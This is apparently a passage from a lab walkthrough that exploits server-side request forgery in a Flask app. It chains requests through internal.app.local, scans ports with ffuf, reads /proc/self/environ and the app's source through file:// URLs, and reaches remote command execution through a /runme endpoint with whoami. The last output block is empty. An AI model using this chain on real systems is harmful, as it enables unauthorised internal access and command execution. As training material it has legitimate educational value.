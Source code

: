 ```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>
```
#### Use ffuf to scan ports
```Shell
ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'
```
Port 5000 is open on this as well
#### Interact with the target on open ports using cURL
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"
```
### Enumerate source code of the web apps listening on `internal.app.local`
#### Issue a request to disclose `/proc/self/environ` file, where the current path should be present under the `PWD` environment variable
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -
```
Output shows current path is `/app`
#### Retrieving a local file through the target application - File Schema
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
```
By studying the source code above, we notice a functionality that allows us to execute commands on the remote host sending a GET request to `/runme?x=<CMD>`.
Output:
```
@app.route("/runme")
def runmewithargs():
    command = request.args.get("x")
    if command == "":
        return "Use /runme?x=<CMD>"
    return run_command(command)
```
#### Use cURL to execute RCE
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"
```
Output:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 94
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 17 Oct 2023 17:00:45 GMT

```